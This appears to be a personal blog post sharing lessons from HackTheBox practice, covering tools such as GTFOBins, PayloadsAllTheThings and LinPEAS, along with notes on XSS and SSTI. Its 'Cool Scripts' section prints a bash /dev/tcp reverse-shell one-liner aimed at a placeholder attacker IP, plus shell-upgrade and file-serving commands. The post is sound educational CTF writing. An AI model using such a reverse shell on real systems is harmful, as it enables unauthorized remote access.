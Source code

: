 ```yaml
---
layout: post
title: What I've Learned from Hackthebox So Far
subtitle: Started it for a good time, and still going
# gh-repo: https://github.com/signalapp
# gh-badge: [star, fork, follow]
tags: [hackthebox, CTF, hack, hacking, informational]
comments: true
published: true
---
```


I recently reached the rank of hacker on hackthebox here is some of the cool things I learned along the way.

![encryption](/assets/img/hackthebox-logo.png){: .mx-auto.d-block :}

I have been doing hackthebox on the side for about a month now, so here is some of my thoughts and cool thing I learned while breaking into boxes.
I’m currently sitting at the very start of Hacker rank with 6 userowns, 5 root owns, and 4 challenges.
![encryption](/assets/img/hackthebox-owns.png){: .mx-auto.d-block :}


I will be mostly writing about my experience with boxes rather than the challenges since they taught me the most and I had the most fun finishing them.
Let’s dive in!

## Very Useful Githubs

### GTFOBins

[GTFOBins](https://gtfobins.github.io/) is basically a super collection of Unix binaries mostly focused on breaking restricted shells. I have a long list of binaries made for common Unix tools for breaking out of restricted shells and escalate privilege. I was a bit hard for me to follow the instructions at first, but after using them for a few machines, I think i have the gist of how to follow them.

### PayloadsAllTheThings

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is a super collection of a set of payloads for lots and lots of Windows, macOS, Linux, and ChromeOs software and tool. Most of them come with kali version of Metasploit but using them without a Metasploit taught me a lot about how these things work. I do recommend trying this webpage before Metasploit if you are sure to know where exactly the vulnerability is.

### PEAS(LinPeas)

After trying multiple enumeration tools I found the community favorite [PEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), and what a find this was. LinPeas (PEAS for linux) by far gave the most information of all the other ones and had everything color coded based on how critical they are. I LOVE THIS THING.


## Cool Scripts

### Spawn a Bash Shell from a Python Environment
stuck in a Python shell?
~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

### Reverse Shell with One Line of Code
combine it with netcat and you are in for a good time.
~~~
bash -i >& /dev/tcp/<YOUR IP>/<THE PORT UR LISTENING ON> 0>&1 | sh
~~~

### Host a Webpage with One Line of Code
Need to download a file to the victims machine or the other way around?
~~~
python3 -m http.server <PORT NUMBER>
~~~

## Useful Websites

### Hash Identifier

During my journey, I came across multiple hashes that I didn’t know what they are. Which is a problem when it comes down to trying to decrypt. I know you can always look at hashcat and john examples to try and find out what kind hash you have. but using a website like [hashes.com](https://hashes.com/en/tools/hash_identifier) is much easier and faster.

### HackerOne, Intigirity, Bugcrowd and Other Bug Bounty Websites

Very useful in case you need a thorough read on a vulnerability. Since bug hunters need to have a write for the compony to receive their bounty, they usually have very thorough and in depth guide on how to recreate or abuse the bug they have found.

### Application User Manual

Lots of times, you know exactly what application you need to exploit because of all the hints, but you have know idea what your foothold is. Try reading the application manual. It always lists the set dependencies, privileges, default ports, etc. that can be later researched to find vulnerability in.

## Common Web Application Vulnerabilities

### XSS

XSS is often ignore if the website isn’t and multiuser environment like social media. Since it is mostly used to stead data from other users, but you can still use XSS to grab admin passwords of websites. The best bug hunters gained their fame from abusing XSS on Fortune 500 companies and gaining bank from it.

### SSTI

SSTI or Server-Side Template Injection is a very common vulnerability among web applications like flask running on Python. There is a very quick way of testing if a website is vulnerable to it as show below. It so quick to do its almost always worth a try.
![encryption](/assets/img/SSTI.png){: .mx-auto.d-block :}

## Linux Tools I Ended Up Using A lot

#### NETCAT 
Other than its usual usage like port listening, this is also used heavily in getting a reverse shell.

#### netpgp
Got a encrypted file?


## Skills I Want To Improve On

  - XSS
  - Java Script Injection
  - Not relying on Metasploit
  - Using r2 for reading binaries
  - Being More Observant
  - Not pressing Ctrl + C in a reverse shell -_-


{: .box-warning}
**Warning:** This post is meant to be educational and only used in ethical hacking. Please do not use any of the tools or commands mentioned here in a malicious way.
